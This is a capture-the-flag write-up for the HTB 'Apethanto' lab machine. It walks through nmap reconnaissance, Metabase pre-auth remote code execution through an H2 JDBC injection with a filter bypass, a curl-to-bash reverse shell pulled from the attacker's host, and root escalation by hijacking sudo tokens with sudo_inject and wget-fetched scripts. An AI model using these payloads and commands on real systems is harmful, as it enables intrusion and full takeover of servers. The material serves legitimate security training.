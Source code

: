 # Write-up for HTB Uni-CTF-2023

**Name of Challenge** - Apethanto  
**Category** - Fullpwn

```console
inte@debian-pc:~$ sudo nmap -p- --min-rate 4000 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

```console
inte@debian-pc:~$ sudo nmap -sC -sV -p 22,80,3000 -oN apethanto.nmap 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://apethanto.htb/
|_http-server-header: nginx/1.18.0
3000/tcp open  http    Jetty 11.0.14
|_http-title: Metabase
|_http-server-header: Jetty(11.0.14)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on `nmap` report, `/etc/hosts` has to be updated.

```text
10.129.248.88 apethanto.htb
```

<http://apethanto.htb/> is static.  
The URL <http://metabase.apethanto.htb/> is present on homepage; add it to `/etc/hosts`:

```text
10.129.248.88 apethanto.htb metabase.apethanto.htb
```

<http://metabase.apethanto.htb/> is running an instance of Metabase, same as <http://apethanto.htb:3000>  
Recent Metabase CVE vulnerability with pre-auth RCE: <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>  
From <http://metabase.apethanto.htb/api/session/properties> the version was found to be v0.46.6 (vulnerable).  
The `setup-token`: `819139a8-1ce9-46f0-acf8-9b4fc0d1164b` could also be found.

The vulnerability's public PoCs are ineffective. The instance has possibly been configured with slight variations from defaults.  
The Assetnote blog hints to other approaches which could work.  
I wrote another PoC based on existing ones and after several minutes of debugging, an alternate approach worked for RCE.

The key ideas:

- Using a `mem` DB instead of the zip URI as mentioned in <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- Using the diacritic character `ı` instead of `I` to bypass filter (<https://twitter.com/reginaldojsf/status/1684728514170191872>)
- Fixing the java errors as stated in JDBC responses

The H2 database query:

```text
mem:;ıNIT=RUNSCRIPT FROM 'http://10.10.14.80:8000/poc.sql'//\;
```

Queries in `poc.sql`:

```text
"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {{Runtime.getRuntime().exec(cmd);return \"a\";}}';CALL EXEC ('bash -c {{curl,{lhost}:{lport}/payload}}|{{bash,-i}}')"
```

`payload` is a bash reverse shell one-liner.

**Note**: Above queries have extraneous `\` or `{{` for escaping quotes in JSON or other characters within Python f-strings.  
As a result, the provided payloads would not work when used with `curl` or `BurpSuite` without adjustments.

Full exploit script: [metabase_preauth_rce.py](metabase_preauth_rce.py)

```console
inte@debian-pc:~$ python3 metabase_preauth_rce.py
LHOST: 10.10.14.80
Version: {'date': '2023-06-29', 'tag': 'v0.46.6', 'branch': 'release-x.46.x', 'hash': '1bb88f5'}
Token: 819139a8-1ce9-46f0-acf8-9b4fc0d1164b
10.129.248.88 - - [10/Dec/2023 16:51:02] "GET /poc.sql HTTP/1.1" 200 -

10.129.248.88 - - [10/Dec/2023 16:51:04] "GET /payload HTTP/1.1" 200 -
```

After receiving the reverse shell, upgrade it:

```console
metabase@Apethanto:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
metabase@Apethanto:~$ ^Z
inte@debian-pc:~$ stty raw -echo; fg
metabase@Apethanto:~$ stty rows 24 cols 80
metabase@Apethanto:~$ export TERM=xterm-256color
metabase@Apethanto:~$ exec /bin/bash
```

```console
metabase@Apethanto:~$ id
uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```

Being a member of the `sudo` group grants the ability to execute any OS command as root. However, the user's password is not known.

[pspy](https://github.com/DominicBreuker/pspy) can be used to monitor cron jobs.

```text
2023/12/10 11:25:46 CMD: UID=0     PID=3677   | sudo -u metabase -i 
2023/12/10 11:25:46 CMD: UID=998   PID=3678   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3679   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3680   | 
2023/12/10 11:25:46 CMD: UID=0     PID=3681   | sudo apt update 
2023/12/10 11:25:46 CMD: UID=0     PID=3682   | apt update 
```

A root cron job is running `sudo apt update` as user `metabase`.  
This scenario matches the one mentioned in <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens>  
A shell as user with `sudo` privileges is available, password is unknown, and another session is running a command as the same user with `sudo`.

```console
metabase@Apethanto:~$ cat /proc/sys/kernel/yama/ptrace_scope
0
metabase@Apethanto:~$ which gdb
/usr/bin/gdb
```

Therefore, [sudo_inject](https://github.com/nongiach/sudo_inject) can be used:

```console
metabase@Apethanto:~$ wget 10.10.14.80:8000/activate_sudo_token
metabase@Apethanto:~$ wget 10.10.14.80:8000/exploit_v2.sh
metabase@Apethanto:~$ chmod +x exploit_v2.sh 
metabase@Apethanto:~$ sudo bash
[sudo] password for metabase: 
sudo: a password is required
metabase@Apethanto:~$ ./exploit_v2.sh 
Creating suid shell in /tmp/sh
Current process : 1228
Injecting process 798 -> bash
Injecting process 801 -> bash
Injecting process 803 -> bash
Injecting process 804 -> bash
Injecting process 809 -> bash
Injecting process 1207 -> bash
```

The suid `sh` created in `/tmp` can be used to get shell as root:

```console
metabase@Apethanto:~$ /tmp/sh -p
# id
uid=998(metabase) gid=998(metabase) euid=0(root) egid=0(root) groups=0(root),27(sudo),998(metabase)
```
